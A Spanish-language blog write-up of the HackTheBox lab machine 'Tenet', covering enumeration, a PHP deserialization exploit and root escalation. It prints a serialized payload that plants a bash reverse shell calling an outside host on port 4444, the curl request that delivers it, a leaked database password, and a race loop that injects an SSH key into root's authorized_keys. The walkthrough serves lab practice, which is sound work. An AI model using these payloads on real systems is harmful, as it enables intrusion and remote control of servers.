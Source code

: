 ```yaml
---
layout: post
title:  "Tenet - [HTB]"
date:   2021-06-12 5:35:00 +0200
last_modified_at: 2021-06-12 5:35:00 +0200
toc:  true
tags: [ctf, linux, hackthebox, Writeup, deserializacion]
categories: Hackthebox
---
```


{: .message }

Es una excelente maquina para practicas la deserializacion en PHP

## Enumeración 
### Nmap
* 22/tcp OpenSSH 7.6p1
* 80/tcp Apache httpd 2.4.29

```

```bash
nmap -sC -sV -p22,80 10.10.10.223 -oN Scan_port1                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:33 EDT
Nmap scan report for 10.10.10.223
Host is up (0.060s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

## Web Enumeration
Tips rapido de enumeracion siempre ver a que nos enfrentamos:
```bash
whatweb  10.10.10.223                                                             
http://10.10.10.223 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

### Fuzz
* /users.txt
* /wordpress/wp-login.php

```bash
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Target: http://10.10.10.223/

[18:55:50] Starting: 
[18:58:30] 200 -    7B  - /users.txt
[18:58:36] 200 -    6KB - /wordpress/wp-login.php
```

### Tenet Wordpress
![](/images_blog/img_tenet/Pastedimage20210502200252.png)
![Pastedimage20210502200252](https://user-images.githubusercontent.com/76759292/127757805-5d1395c6-eae9-4dfd-85c1-0e482dd3f039.png)


Subdominio:
* sator.tenet.htb

### Tenet.htb
![](/images_blog/img_tenet/Pastedimage20210502180600.png)
![Pastedimage20210502180600](https://user-images.githubusercontent.com/76759292/127757807-1ab06b16-8ec1-477a-b3e2-258c8507d8ad.png)


## Off topic
* /xmlrpc.php

Aunque no tiene que ver me parece interesante la manera de explotacion que tiene esto [aqui]((https://www.securityfocus.com/bid/14088/exploit))


## PHP deserialization

[Lee](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

Aqui esta el otro:
* Sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Esto nos sirve para saber por donde debemos tirar, entonces viendo como se mueve todo me di cuenta de que podria ser deserializacion y me encontre con el blog que puse al principio.

Luego con la php interactive podemos crear lo que queremos que el programa nos haga:

```php
php -a           
Interactive mode enabled

php > class DatabaseExport {
php {   public $user_file = 'rce.php';
php {   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.101/4444 0>&1\'"); ?>';
php {   }
php > 
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Para que esto funcione hacemos esto, vemos que utiliza  ```arepo```
```
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

Entonces la data serializada que generamos la colocamos aqui:
```
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Luego visitamos ```http://sator.tenet.htb/rce.php``` 


## PrivEsc
```bash
/** MySQL database username */                                                                                         
define( 'DB_USER', 'neil' );                                                                                           
                                                                                                                       
/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'Opera2112' );     
```

Estas claves puedo entrar por ssh.

[mktemp](https://kbmwkaaxveg73o3q7ydl7zxf2a-adv7ofecxzh2qqi-superuser-com.translate.goog/questions/834277/what-should-i-worry-about-when-using-mktemp-dry-run) vemos que podemos ejecutar un script como root lo analizo y me llama esta parte:
```bash
addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName
}
```

Si nos fijamos en la parte del mktemp -u podemos ver que el script escribe la clave publica que se encuentra en la variable key la copia en un archivo

```bash
while true; do echo "ssh-rsa XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" | tee /tmp/ssh* > /dev/null; done
```

Conjuntamente ejecutamos el script varias veces y listo.

MACHINE PWNED!!!!
